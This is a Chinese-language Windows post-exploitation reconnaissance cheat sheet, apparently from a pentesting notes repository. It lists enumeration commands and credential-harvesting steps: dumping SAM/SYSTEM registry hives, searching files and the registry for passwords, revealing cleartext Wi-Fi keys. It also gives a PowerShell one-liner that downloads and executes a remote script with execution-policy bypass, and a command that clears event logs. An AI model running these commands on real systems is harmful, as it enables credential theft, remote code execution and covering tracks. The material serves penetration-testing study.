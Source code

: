 信息收集 - Windows
========================================

基本命令
----------------------------------------
- 查询所有计算机名称 ``dsquery computer``
- 查看配置 ``systeminfo``
- 查看版本 ``ver``
- 进程信息 ``tasklist /svc``
- 查看所有环境变量 ``set``
- 查看计划任务 ``schtasks /QUERY /fo LIST /v``
- 查看安装驱动 ``DRIVERQUERY``
- 查看操作系统架构 ``wmic os get osarchitecture``
- 查看逻辑盘 ``wmic logicaldisk get caption``
- 查看安装的软件 ``wmic product get name,version``
- 查看Powershell版本：``REG QUERY "HKLM\SOFTWARE\Microsoft\PowerShell\1\PowerShellEngine" /v PowerShellVersion``

权限查询
----------------------------------------
- 文件访问权限 ``accesschk.exe [administrator] [-v] c:\windows\hh.exe``
- 整个目录文件访问权限 ``accesschk.exe [administrator]  -sv c:\windows``
- 整个目录访问权限 ``accesschk.exe [administrator]  -dsv c:\windows``
- 服务权限 ``accesschk.exe -cu [administrator] *``
- 显示无权访问指定注册表对象 ``accesschk.exe -knsu [administrator] hklm\software``
- 显示可操作的全局对象 ``accesschk64.exe [administrator] -ou \``
- 注：-v权限显示访问权限详细信息。
- 注：默认是文件权限，-d标识文件夹权限。

系统服务管理-sc
----------------------------------------
- start
	+ 用于启动、停止或暂停服务
- stop
	+ 用于停止服务
- query
	+ 用于查询服务的状态
	+ ``Sc [ServerName] query [ServiceName] [type= {driver | service | all}] [type= {own | share | interact | kernel | filesys | rec | adapt}] [state={active | inactive | all}] [bufsize= BufferSize] [ri= ResumeIndex] [group= GroupName]``
		::
		
			ServerName：远程服务器名称须使用 UNC 格式（"\myserver"）。
			ServiceName：指定服务名。
			type= {driver | service | all}
			type= {own | share | interact | kernel | filesys | rec | adapt}：指定要枚举的服务类型或驱动程序类型。
			state= {active | inactive | all}:指定要枚举的服务的已开始状态。
- config
	+ 用于更改服务的配置（永久）
	+ ``sc config stisvc start= demand``
- create
	+ 用于创建新服务
	+ ``sc create TestService binPath= "C:\test.exe"``
- delete
	+ 用于删除指定服务
	+ ``sc delete TestService``

域信息
----------------------------------------
- 获取当前组的计算机名 ``net view``
- 查看所有域 ``net view /domain``
- 查看域中的用户名 ``dsquery user``
- 查询域组名称 ``net group /domain``
- 查询域管理员 ``net group "Domain Admins" /domain``
- 查看域控制器 ``net group "Domain controllers"``
- 查询Kerberos票证缓存 ``klist``

用户信息
----------------------------------------
- 查看用户 ``net user`` / ``whoami`` / ``whoami /all`` / ``echo %USERNAME% || whoami``
- 查看用户信息: ``net user <administrator>``
- 用户特权信息 ``whoami /priv``
- 查看当前权限 ``net localgroup administrators``
- 查看在线用户 ``qwinsta`` / ``query user`` / ``quser``
- 查看当前计算机名，全名，用户名，系统版本，工作 站域，登陆域 ``net config Workstation``

网络信息
----------------------------------------
- 域控信息
	+ ``nltest /dclist:xx``
	+ ``Get-NetDomain``
	+ ``Get-NetDomainController``
- 网卡信息 ``ipconfig``
- ARP表 ``arp -a``
- 路由表 ``route print``
- 监听的端口 ``netstat -ano``
- 查看netbios：``nbtscan 192.168.1.17``
- 防火墙状态及规则
	+ ``netsh firewall show config``
	+ ``netsh firewall show state``
- hosts文件

密码信息
----------------------------------------
+ 当前系统凭据
	- ``cmdkey /l``
+ REG导出SAM数据
	::
		
		reg save HKLM\SAM sam.hiv
		reg save HKLM\SYSTEM system.hiv
		reg save HKLM\SECURITY security.hiv
+ 系统文件查找
	- ``cd C:\ & findstr /SI /M "password" *.xml *.ini *.txt``
	- ``findstr /si password *.xml *.ini *.txt *.config 2>nul >> results.txt``
	- ``findstr /spin "password" *.*``
+ 文件名查找
	- ``dir /S /B *pass*.txt == *pass*.xml == *pass*.ini == *cred* == *vnc* == *.config*``
	- ``where /R C:\ user.txt``
	- ``where /R C:\ *.ini``
+ 注册表搜索密码
	::
	
		REG QUERY HKLM /F "password" /t REG_SZ /S /K
		REG QUERY HKCU /F "password" /t REG_SZ /S /K

		reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" # Windows Autologin
		reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" 2>nul | findstr "DefaultUserName DefaultDomainName DefaultPassword" 
		reg query "HKLM\SYSTEM\Current\ControlSet\Services\SNMP" # SNMP parameters
		reg query "HKCU\Software\SimonTatham\PuTTY\Sessions" # Putty clear text proxy credentials
		reg query "HKCU\Software\ORL\WinVNC3\Password" # VNC credentials
		reg query HKEY_LOCAL_MACHINE\SOFTWARE\RealVNC\WinVNC4 /v password

		reg query HKLM /f password /t REG_SZ /s
		reg query HKCU /f password /t REG_SZ /s
+ unattend.xml
	::
	
		C:\unattend.xml
		C:\Windows\Panther\Unattend.xml
		C:\Windows\Panther\Unattend\Unattend.xml
		C:\Windows\system32\sysprep.inf
		C:\Windows\system32\sysprep\sysprep.xml
+ wifi密码
	- Find AP SSID: ``netsh wlan show profile``
	- Get Cleartext Pass: ``netsh wlan show profile <SSID> key=clear``
	- ``cls & echo. & for /f "tokens=4 delims=: " %a in ('netsh wlan show profiles ^| find "Profile "') do @echo off > nul & (netsh wlan show profiles name=%a key=clear | findstr "SSID Cipher Content" | find /v "Number" & echo.) & @echo on``

主机敏感数据
----------------------------------------
- Pillager
	+ 项目地址：``https://github.com/qwqdanchun/Pillager``
	+ 运行后，在系统temp目录生成Pillager.tar.gz文件。

其他
----------------------------------------
+ wmic
	- 提供了从命令行接口和批命令脚本执行系统管理的支持
	- 查看补丁安装情况: ``wmic qfe get Caption,Description,HotFixID,InstalledOn``
	- 获取帮助
		+ ``wmic /?``
		+ 查看nic命令帮助：``wmic nic /?``
		+ 信息筛选：``wmic nic where NetConnectionStatus=2 get Name,MACAddress,NetConnectionStatus``
	- 查看杀软：``WMIC /Node:localhost /Namespace:\\root\SecurityCenter2 Path AntivirusProduct Get displayName``
	- 查看启动项：``wmic startup get caption,command``
	- 进程管理
		+ 列出进程的核心信息：``wmic process list brief``
		+ 新建进程：``wmic process call create notepad``
		+ 结束进程
			- ``wmic process \[handle/PID\] delete``
			- ``wmic process \[handle/PID\] call terminate``
			- ``wmic process where "name='svchost.exe' and ExecutablePath<>'C:\\\\WINDOWS\\\\system32\\\\svchost.exe'" call Terminate``
			- ``wmic process where "name='svchost.exe' and ExecutablePath='C:\\\\WINDOWS\\\\svchost.exe'" call Terminate``
	- BIOS管理
		+ 查看bios版本型号：``wmic bios get name,SMBIOSBIOSVersion,manufacturer``
	- 计算机系统管理
		+ 查看硬件，操作系统信息：``wmic computersystem get Name,workgroup,NumberOfProcessors,manufacturer,Model``
		+ 查看系统启动选项boot.ini的内容：``wmic computersystem get SystemStartupOptions``
		+ 更改计算机名abc为123：``wmic computersystem where “name=‘abc’” call rename 123``
		+ 改工作组google为MyGroup：``wmic computersystem where “name=‘google’” call joindomainorworkgroup “”,"",“MyGroup”,1``
	- CPU 管理
		+ 查看cpu型号：``wmic cpu get name``
	- 文件管理
		+ 查找c盘下windows目录(不包括子目录)下的system.ini文件：``wmic datafile where "drive='c:' and path='\\windows\\' and FileName='system' and Extension='ini'" get Name``
		+ 删除e盘下文件大小大于10M的.cmd文件：``wmic datafile where "drive='e:' and Extension='cmd' and FileSize>'10000000'" call delete``
		+ 复制e盘下test目录(不包括子目录)下的cc.cmd文件到e:\,并改名为aa.bat：``wmic datafile where "drive='e:' and path='\\test\\' and FileName='cc' and Extension='cmd'" call copy "e:\aa.bat"``
		+ 改名c:\hello.txt为c:\test.txt：``wmic datafile "c:\\hello.txt" call rename c:\test.txt``
	- 监视器管理
		+ 获取屏幕像素：``wmic DESKTOPMONITOR where Status='ok' get ScreenHeight,ScreenWidth``
		+ 获取磁盘型号大小：``wmic DISKDRIVE get Caption,size,InterfaceType``
	- 系统环境设置管理
		+ 获取temp环境变量：``wmic ENVIRONMENT where "name='temp'" get UserName,VariableValue``
		+ 更改path环境变量值,新增e:\tools：``wmic ENVIRONMENT where "name='Path' and username='<SYSTEM>'" set VariableValue="%path%;e:\tools"``
		+ 新增系统环境变量home,值为%HOMEDRIVE%%HOMEPATH%：``wmic ENVIRONMENT create name="home",username="administrator",VariableValue="%HOMEDRIVE%%HOMEPATH%"``
		+ 删除home环境变量：``wmic ENVIRONMENT where "name='home'" delete``
	- 文件目录系统项目管理
		+ 查找c盘下名为windows的目录（不包含子目录）：``wmic FSDIR where "drive='c:' and path='\\windows\\'" list``
		+ 删除e:\test目录下除过目录abc的所有目录：``wmic FSDIR where "drive='e:' and path='\\test\\' and filename<>'abc'" call delete``
		+ 删除c:\good文件夹：``wmic fsdir "c:\\good" call delete``
		+ 重命名c:\good文件夹为abb：``wmic fsdir "c:\\good" rename "c:\\abb"``
	- 本地储存设备管理
		+ 获取硬盘系统格式、总大小、可用空间等：``wmic LOGICALDISK get name,Description,filesystem,size,freespace``
	- 网络界面控制器 (NIC) 管理
		+ 获取已连接网卡的名字、速率：``wmic NIC where NetEnabled=true get Name, Speed``
		+ 获取已IP地址网卡的index、caption：``wmic nicconfig where IPEnabled="true" get Index, Caption``
		+ 设置index =1的网卡，静态IP地址：``wmic nicconfig where Index=1 call EnableStatic ("1.2.3.4"),("255.255.255.0")``
		+ 设置index =1的网卡，采用DHCP方式获取IP地址：``wmic nicconfig where Index=1 call EnableDHCP``
	- 操作系统管理
		+ 设置系统时间：``wmic os where(primary=1) call setdatetime 20070731144642.555555+480``
		+ 更改当前页面文件(pagefile.sys)初始大小和最大值：``wmic PAGEFILESET set InitialSize="512",MaximumSize="512"``
		+ 页面文件设置到d:\下,执行下面两条命令：``wmic pagefileset create name='d:\pagefile.sys',initialsize=512,maximumsize=1024``,``wmic pagefileset where "name='c:\\pagefile.sys'" delete``
	- 安装包任务管理
		+ 卸载.msi安装包：``wmic PRODUCT where "name='Microsoft .NET Framework 1.1' and Version='1.1.4322'" call Uninstall``
		+ 修复.msi安装包：``wmic PRODUCT where "name='Microsoft .NET Framework 1.1' and Version='1.1.4322'" call Reinstall``
	- 服务程序管理
		+ 查看服务列表：``wmic service list brief``
		+ 运行spooler服务：``wmic SERVICE where name="Spooler" call startservice``
		+ 停止spooler服务：``wmic SERVICE where name="Spooler" call stopservice``
		+ 暂停spooler服务：``wmic SERVICE where name="Spooler" call PauseService``
		+ 更改spooler服务启动类型[auto|Disabled|Manual] 释[自动|禁用|手动]：``wmic SERVICE where name="Spooler" set StartMode="auto"``
		+ 删除服务：``wmic SERVICE where name="test123" call delete``
	- 共享资源管理
		+ 删除共享：``wmic SHARE where name="e$" call delete``
		+ 添加共享：``WMIC SHARE CALL Create "","test","3","TestShareName","","c:\test",0``
	- 声音设备管理
		+ ``wmic SOUNDDEV list``
	- 用户登录到计算机系统时自动运行命令的管理
		+ 查看msconfig中的启动选项：``wmic STARTUP list``
		+ 基本服务的系统驱动程序管理：``wmic SYSDRIVER list``
	- 用户帐户管理
		+ 更改用户administrator全名为admin：``wmic USERACCOUNT where name="Administrator" set FullName="admin"``
		+ 更改用户名admin为admin00：``wmic useraccount where "name='admin'" call Rename admin00``
+ PowerShell
	- 简介
		+ 一个PowerShell脚本其实就是一个简单的文本文件，其扩展名为".ps1"。PowerShell脚本文件中包含一系列命令，每个命令为独立一行。
		+ 执行策略：为防止恶意脚本，默认情况下策略为 **不能执行** 。
		+ 使用 ``get-executionPolicy`` 获取当前执行策略。
			::
			
				Restricted：脚本不能运行（默认设置）
				RemoteSigned：在本地创建脚本可以运行，但从网上下载的不能（拥有数字证书签名除外）
				AllSigned：仅当脚本受信任的发布者签名时才能运行
				Unrestricted：允许所有脚本运行
				
				设置策略：set-ExecutionPolicy <policy name>
		+ 管道：``get-process p* | stop-process``
	- 绕过执行策略
		+ 管道：``Type helloword.ps1 |powershell.exe -NoP -``
		+ 网络下载：``powershell -nop -c "iex(New-Object Net.WebClient).DowndloadString('url')"``
		+ bypass方式：``powershell.exe -ExecutionPolicy bypass -File helloworld.ps1``
		+ 加密方式：即encodedCommand方式。
		+ 隐藏执行：``PowerShell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -WindowStyle Hidden -File xxx.ps1``
	- 查看版本：``get-host``,``$PSVersionTable.PSVERSION``
	- 查看支持命令：``get-command``
		+ 查看命令帮助：``Get-Help Enter-PSSession``
	- 获取所有进程：``get-process``
	- -command 命令参数
		+ 此方法不需要一个交互式窗口，它适用于简单脚本执行，对于复杂脚本会发生解析错误。
		+ ``PowerShell -command "Write-Host 'you are good.'"``
	- -encodedCommand命令参数
		+ 此方法的输入内容是Unicode/base64 encod字符串，使用以下方式编码
			::
			
				$command = 'dir "c:\program files" '
				$bytes = [System.Text.Encoding]::Unicode.GetBytes($command)
				$encodedCommand = [Convert]::ToBase64String($bytes)
				$encodedCommand即为最终的字符串。
		+ ``PowerShell -encodedCommand ZABpAHIAIAAiAGMAOgBcAHAAcgBvAGcAcgBhAG0AIABmAGkAbABlAHMAIgAgAA==``
	- 运行远程命令
		+ WS-Management协议:为计算机设备远程交换管理数据提供了一个公开的标准，在Windows上，微软通过WinRM实现。
		+ 检查WinRM服务：``Get-Service WinRM``
		+ 启动并配置系统接收远程命令：``Enable-PSRemoting –Force``
			::
			
				如果你的计算机已经加入了域，那么上面的配置就可以了。
				对于没有加入域的计算机还需要进行信任设置，然后重启 WinRM 服务：
				Set-Item wsman:\localhost\client\trustedhosts *
				Restart-Service WinRM
		+ 测试远程命令：``Test-WsMan xxx.xxx.xxx.xxx``
		+ 创建远程连接session：``Enter-PSSession -ComputerName my-svr -Credential ****(用户名)***``
		+ 远程执行单个命令：``Invoke-Command -ComputerName cd-lsr-svr -ScriptBlock { Get-Service WinRM } -credential ****(用户名)***``
+ 日志与事件信息
	- ``wevtutil``
		+ 显示系统日志配信信息：``wevtutil gl System /f:xml``
		+ 显示系统日志状态：``wevtutil gli System``
		+ 删除日志：``wevtutil cl system/application``
		+ 显示应用程序日志三个最新事件：``wevtutil qe Application /c:3 /rd:true /f:text``
		+ 导出系统日志：``wevtutil epl System C:\backup\system0506.evtx``
+ 注册表信息
	- ``reg``
